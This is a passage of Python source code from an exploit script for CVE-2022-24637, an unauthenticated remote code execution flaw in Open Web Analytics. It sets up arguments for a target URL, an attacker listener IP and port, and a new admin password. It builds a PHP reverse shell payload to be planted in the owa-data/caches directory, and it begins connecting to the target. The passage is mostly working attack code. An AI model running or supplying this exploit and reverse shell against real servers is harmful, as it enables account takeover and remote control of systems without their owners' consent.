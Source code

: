 ```python
      update_nonce_request = session.get(url, proxies=proxies)
      regex_update_nonce = r'owa_nonce" value="(\w*)"'
      update_nonce = re.search(regex_update_nonce, update_nonce_request.text).group(1)
   except Exception as e:
      print_message('An error occurred when attempting to update config!', "ERROR")
      print(e)
      exit()
   else:
      return update_nonce

parser = argparse.ArgumentParser(description='Exploit for CVE-2022-24637: Unauthenticated RCE in Open Web Analytics (OWA)')
parser.add_argument('TARGET', type=str, 
                  help='Target URL (Example: http://localhost/owa/ or https://victim.xyz:8000/)')
parser.add_argument('-i', '--atk-ip', type=str, 
                  help='Address for reverse shell listener on attacking machine')
parser.add_argument('-p', '--atk-port', type=str, 
                  help='Port for reverse shell listener on attacking machine')
parser.add_argument('-u', '--username', default="admin", type=str,
                  help='The username to exploit (Default: admin)')
parser.add_argument('-s','--new-password', default=get_random_string(32), type=str,
                  help='The new password for the exploited user')
parser.add_argument('-P','--proxy', type=str,
                  help='HTTP proxy address (Example: http://127.0.0.1:8080/)')
parser.add_argument('-c', '--check', action='store_true',
                  help='Check vulnerability without exploitation')

args = parser.parse_args()

if not args.check and (not args.atk_ip or not args.atk_port):
   print_message('The attacker ip (-i) and port (-p) for your listener must be set for exploitation', "ERROR")
   print_message('Use -c to only test if the system is vulnerable without exploiting the system', "INFO")
   exit()

base_url = get_normalized_url(args.TARGET)
login_url = base_url + "index.php?owa_do=base.loginForm"
password_reset_url = base_url + "index.php?owa_do=base.usersPasswordEntry"
update_config_url = base_url + "index.php?owa_do=base.optionsGeneral"

username = args.username
new_password = args.new_password

reverse_shell = '<?php $sock=fsockopen("{ip}",{port});$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);?>'.format(ip=args.atk_ip,port=args.atk_port)
shell_filename = get_random_string(8) + '.php'
shell_url = base_url + 'owa-data/caches/' + shell_filename

if args.proxy:
   proxy_url = get_normalized_url(args.proxy)
   proxy_protocol = get_proxy_protocol(proxy_url)
   proxies = { proxy_protocol: proxy_url }
else:
   proxies = {}

session = requests.Session()

try:
   mainpage_request = session.get(base_url, proxies=proxies)
except Exception as e:
   print_message('Could not connect to "{url}"'.format(url=base_url), "ERROR")
   exit()
```